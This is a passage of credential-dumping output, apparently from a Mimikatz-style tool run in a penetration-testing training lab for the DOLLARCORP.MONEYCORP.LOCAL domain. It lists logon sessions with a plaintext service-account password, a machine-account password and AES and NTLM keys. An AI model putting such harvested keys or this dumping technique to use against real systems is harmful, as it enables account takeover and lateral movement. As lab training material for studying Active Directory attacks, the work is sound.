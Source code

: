 ```powershell

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754

Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8

Authentication Id : 0 ; 57471 (00000000:0000e07f)
Session           : Service from 0
User Name         : SQLTELEMETRY
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:51 AM
SID               : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(`?yW`E8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41`*/$^4+EeZ07?zF2Z3`:[Jd*F/z_P`p6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-20

         * Username : dcorp-mgmt$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
```